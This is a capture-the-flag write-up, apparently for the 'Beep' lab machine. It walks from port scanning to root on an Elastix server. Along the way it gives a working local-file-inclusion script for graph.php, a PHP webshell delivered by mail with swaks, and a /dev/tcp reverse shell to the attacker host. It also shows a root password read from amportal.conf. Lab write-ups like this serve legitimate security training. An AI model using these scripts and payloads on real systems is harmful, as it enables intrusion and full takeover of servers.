 # Recon

```bash
nmap -p- -oA scans/nmap-alltcp 10.10.10.7

PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
881/tcp   open  unknown
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt
```

```bash
nmap -p 22,25,80,110,111,143,443,881,993,995,3306,4190,4445,4559,4038,10000 -sVC -oA scans/nmap-tcpdetail 10.10.10.7
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 adee5abb6937fb27afb83072a0f96f53 (DSA)
|_  2048 bcc6735913a18a4b550750f6651d6d0d (RSA)
25/tcp    open   smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open   http       Apache httpd 2.2.3
|_http-title: Did not follow redirect to https://10.10.10.7/
|_http-server-header: Apache/2.2.3 (CentOS)
110/tcp   open   pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: PIPELINING TOP EXPIRE(NEVER) APOP USER AUTH-RESP-CODE IMPLEMENTATION(Cyrus POP3 server v2) LOGIN-DELAY(0) STLS UIDL RESP-CODES
111/tcp   open   rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            878/udp   status
|_  100024  1            881/tcp   status
143/tcp   open   imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed X-NETSCAPE IMAP4rev1 THREAD=ORDEREDSUBJECT ANNOTATEMORE OK CATENATE LIST-SUBSCRIBED RIGHTS=kxte MAILBOX-REFERRALS UNSELECT IDLE ACL CONDSTORE URLAUTHA0001 THREAD=REFERENCES SORT=MODSEQ IMAP4 MULTIAPPEND SORT LITERAL+ STARTTLS NO UIDPLUS RENAME BINARY CHILDREN QUOTA ATOMIC ID NAMESPACE LISTEXT
443/tcp   open   ssl/http   Apache httpd 2.2.3 ((CentOS))
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2023-08-23T06:56:01+00:00; +4s from scanner time.
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Elastix - Login page
881/tcp   open   status     1 (RPC #100024)
993/tcp   open   ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open   pop3       Cyrus pop3d
3306/tcp  open   mysql      MySQL (unauthorized)
4038/tcp  closed fazzt-ptp
4190/tcp  open   sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open   upnotifyp?
4559/tcp  open   hylafax    HylaFAX 4.3.10
10000/tcp open   http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: 3s
```

```bash
feroxbuster -o scans/endpoints -u https://10.10.10.7 -k --no-recursion

301      GET        9l       28w      309c https://10.10.10.7/admin => https://10.10.10.7/admin/
301      GET        9l       28w      310c https://10.10.10.7/images => https://10.10.10.7/images/
301      GET        9l       28w      311c https://10.10.10.7/modules => https://10.10.10.7/modules/
301      GET        9l       28w      308c https://10.10.10.7/help => https://10.10.10.7/help/
301      GET        9l       28w      307c https://10.10.10.7/var => https://10.10.10.7/var/
301      GET        9l       28w      308c https://10.10.10.7/mail => https://10.10.10.7/mail/
301      GET        9l       28w      310c https://10.10.10.7/static => https://10.10.10.7/static/
301      GET        9l       28w      308c https://10.10.10.7/lang => https://10.10.10.7/lang/
301      GET        9l       28w      308c https://10.10.10.7/libs => https://10.10.10.7/libs/
301      GET        9l       28w      309c https://10.10.10.7/panel => https://10.10.10.7/panel/
301      GET        9l       28w      311c https://10.10.10.7/configs => https://10.10.10.7/configs/
```

# Shell as asterisk

When we first look at http page available under port 80, we notice
Elastix login page:

```bash
searchsploit elastix
-------------------------------------------------------------- -----------------------
 Exploit Title                                                |  Path
-------------------------------------------------------------- -----------------------
Elastix - 'page' Cross-Site Scripting                         | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities       | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion              | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                             | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                            | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution        | php/webapps/18650.py
-------------------------------------------------------------- -----------------------
```

As we can see, it might be vulnerable to some CVE's, but since we don't know the
version, we might not be able to exploit any of them.

After trying poc's of these vulnerabilities LFI one worked.
This version of Elastix has LFI under graph.php in current_language field.
We've written simple exploit script for this vulnerability:

```bash
#!/bin/bash

path="/etc/passwd"

if [ $# -eq 1 ]
  then
    path=$1
fi

curl -s -k \
    "https://10.10.10.7/vtigercrm/graph.php?current_language=
../../../../../$path%00&module=Accounts&action"\
    | head -n -1
```

We read /etc/passwd file in order to get some possible users
for smtp:

```bash
root:x:0:0:root:/root:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```

After some trial and error, we were able to properly send and read (using LFI)
test mail to one of the users:

```bash
swaks \
    --to asterisk@localhost \
    --from jjs@jjs.jjs \ 
    --header "Subject: Testing" \ 
    --body "ignore me" \ 
    --server 10.10.10.7
```

```
./elastix_lfi.sh /var/mail/asterisk
From jjs@jjs.jjs  Wed Aug 23 12:06:06 2023
Return-Path: <jjs@jjs.jjs>
X-Original-To: asterisk@localhost
Delivered-To: asterisk@localhost.localdomain
Received: from kali (unknown [10.10.14.23])
	by beep.localdomain (Postfix) with ESMTP id E77ADD92FD
	for <asterisk@localhost>; Wed, 23 Aug 2023 12:06:05 +0300 (EEST)
Date: Wed, 23 Aug 2023 05:05:51 -0400
To: asterisk@localhost
From: jjs@jjs.jjs
Subject: Testing
Message-Id: <20230823050551.074246@kali>
X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/

ignore me
```

After that, we will just upload php webshell and then use it to gain reverse shell:

```bash
swaks \
    --to asterisk@localhost \
    --from jjs@jjs.jjs \ 
    --header "Subject: Testing" \ 
    --body "<?php system(\$_REQUEST['cmd']); ?>" \ 
    --server 10.10.10.7
```

Script for using webshell:
```bash
#!/bin/bash

cmd="id"

if [ $# -eq 1 ]
  then
    cmd=$1
fi

curl -s -k \
    "https://10.10.10.7/vtigercrm/graph.php?current_language=
../../../../../../..//var/mail/asterisk%00&module=Accounts&action&cmd=$cmd"\
    | tail -n +33 | head -n -3
```

We will use it with url-encoded bash reverse shell, after starting listener
under port 9001:
```bash
./rce.sh "%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.23%2F9001%200%3E%261"
```

We should receive reverse connection granting us shell as asterisk.

# Shell as root
After some enumeration of the system, we encounter amportal.conf file
in root directory. It contains some passwords. As it turns out, one 
of them is the password for root user!

```bash
bash-3.2$ su     
standard in must be a tty
bash-3.2$ which python python2 python3
which: no python3 in (/sbin:/usr/sbin:/bin:/usr/bin)
/usr/bin/python
/usr/bin/python2
bash-3.2$ /usr/bin/python -c 'import pty;pty.spawn("/bin/bash")'
bash-3.2$ su
Password: jEhdIekWmdjE
cat /root/root.txt
2f4**************************06f
```
